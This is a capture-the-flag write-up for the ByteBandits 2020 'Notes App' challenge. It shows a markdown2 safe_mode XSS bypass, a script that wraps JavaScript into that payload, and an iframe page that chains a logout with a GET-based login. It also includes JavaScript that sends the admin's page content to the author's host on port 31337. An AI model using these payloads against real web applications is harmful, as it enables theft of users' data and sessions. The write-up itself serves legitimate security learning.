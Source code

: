 +++
title = "ByteBandits 2020 Notes App"
date = "2020-04-12T15:24:33+01:00"
author = "SakiiR"
authorTwitter = "sakiirsecurity" #do not include @
cover = ""
tags = ["web", "xss", "iframes"]
keywords = ["", ""]
description = "From XSS to real world exploitation"
showFullContent = false
+++

For this task, a very simple Python application and its source code is provided.

[Sources](https://github.com/TFNS/writeups/blob/e370c8178f64908b5d74469ea7257cf05fd90713/2020-04-12-ByteBanditsCTF/notes-app/sources)

## Analysis

![main app](/files/ByteBandits-2020-notes-app/main.png)

The application let us register, login, submit a link and edit a single field "note" that will be displayed on `/profile`.

The application code is pretty straightforward and allows us to insert markdown on our own profile page.

The python code responsible for markdown rendering (md2html) is the following:

```python
@app.route("/update_notes", methods=["POST"])
@login_required
def update_notes():
    # markdown support!!
    current_user.notes = markdown2.markdown(request.form.get("notes"), safe_mode=True)
    db.session.commit()
    return redirect("/profile")
```

Looking in the `requirements.txt` shows us that this is the latest version of `markdown2`:

```
markdown2==2.3.8
```

However, I found this github issue: [github issue # 341](https://github.com/trentm/python-markdown2/issues/341)

A possible injection is demonstrated:

```markdown
<http://g<!s://q?<!-<[<script>alert(1);/\*](http://g)->a><http://g<!s://g.c?<!-<[a\\*/</script>alert(1);/\*](http://g)->a>
```

This will be rendered as:

```html
<p><http://g<!s://q?<!-&lt;<a href="http://g"><script>alert(1);/*</a>->a><http://g<!s://g.c?<!-&lt;<a href="http://g">a\\*/</script>alert(1);/*</a>->a></p>
```

Then, I tried that on my profile page and it worked.

This should be a good entry point to our exploitation steps.

## Exploitation

Having a working payload is cool, but remember that the payload is reflected on the `/profile` page so we are not going to be able to send this link to the admin.

By the way, the admin uses this code to access our page:

```python

async def main(url):
    browser = await launch(headless=True,
                           executablePath="/usr/bin/chromium-browser",
                           args=['--no-sandbox', '--disable-gpu'])
    page = await browser.newPage()
    await page.goto("https://notes.web.byteband.it/login")
    await page.type("input[name='username']", "admin")
    await page.type("input[name='password']", os.environ.get("ADMIN_PASS"))
    await asyncio.wait([
        page.click('button'),
        page.waitForNavigation(),
    ])
    await page.goto(url)
    await browser.close()
```

First, he authenticates himself on the application, and then access the URL provided.

Also, another important thing to notice is that the `/login` endpoint accepts GET and does not have any check on the HTTP verb used:

```python
@app.route("/login", methods=["GET", "POST"]) # Accepts GET and POST
def login():

    # Redirect the user if he is already authenticated.
    if current_user.is_authenticated:
        return redirect("/profile")

    if request.args.get("username"):
        id = request.args.get("username")
        password = request.args.get("password")
        user = User.query.filter_by(id=id).first()
        if user and user.check_password(password=password):
            login_user(user)
            return redirect("/profile")

        flash("Incorrect creds")
        return redirect("/login")
    return render_template("login.html")
```

So, here is our strategy:

Send to the admin, a page containing 3 iframes:

1. The first one will point to the `/profile` page
2. The second one will point to the `/logout` page after the first one rendered (Used to logout the admin before we access `/login` for the third one)
3. The third one will point to our profile `https://notes.web.byteband.it/login?username=SakiiR&password=SakiiR` and execute arbitrary Javascript

The third iframe is the most important and will retrieve information from the parent iframe pointing to `/profile` to retrieve the admin note.

Before triggering the admin on this custom hosted page, we have to host script on our profile page.

To do that, I used a simple script reading arbitrary Javascript and "converting" it into a markdown2 payload:

```python
#!/usr/bin/env python3
# @SakiiR

import base64
from urllib.parse import quote_plus as urlencode


def main():
    content = ""
    with open("payload.js", "rb") as f:
        content = base64.b64encode(f.read()).decode()
        f.close()

    payload = urlencode(content)
    print(
        f"%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fq%3F%3C%21-%3C%5B%3Cscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F%5C*%5D%28http%3A%2F%2Fg%29-%3Ea%3E%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fg.c%3F%3C%21-%3C%5Ba%5C%5C*%2F%3C%2Fscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F*%5D%28http%3A%2F%2Fg%29-%3Ea%3E"
    )


if __name__ == "__main__":
    main()
```

I also used this following Javascript file to retrieve the parent iframe content:

```js
let content = top.frames[0].document.documentElement.innerHTML;

content = btoa(content);
window.location.replace("http://sakiir.ovh:31337/?exfil=" + content);
```

The following HTML page has been hosted on `sakiir.ovh` to perform the iframe thing:

```html
<html>
  <head></head>
  <body>
    <iframe
      style="width: 100%;"
      id="aframe"
      src="https://notes.web.byteband.it/profile"
    ></iframe>
    <!-- First action, retrieve the admin /profile into the iframe -->

    <iframe style="width: 100%;" id="bframe" src=""></iframe>
    <iframe style="width: 100%;" id="cframe" src=""></iframe>

    <script>
      const a = document.getElementById("aframe");
      const b = document.getElementById("bframe");
      const c = document.getElementById("cframe");

      b.onload = () => {
        // Third action, login as me and get redirected on my own /profile containing Javascript retrieving the **aframe** content
        c.src =
          "https://notes.web.byteband.it/login?username=SakiiR4&password=test";
      };

      // Second action, logout the admin so that he can login as me
      a.onload = () => {
        b.src = "https://notes.web.byteband.it/logout";
      };
    </script>
  </body>
</html>
```

Everything's ready, we send the link to the admin via the `/visit_link` endpoint and get the flag:

```
flag{ch41n_tHy_3Xploits_t0_w1n}
```
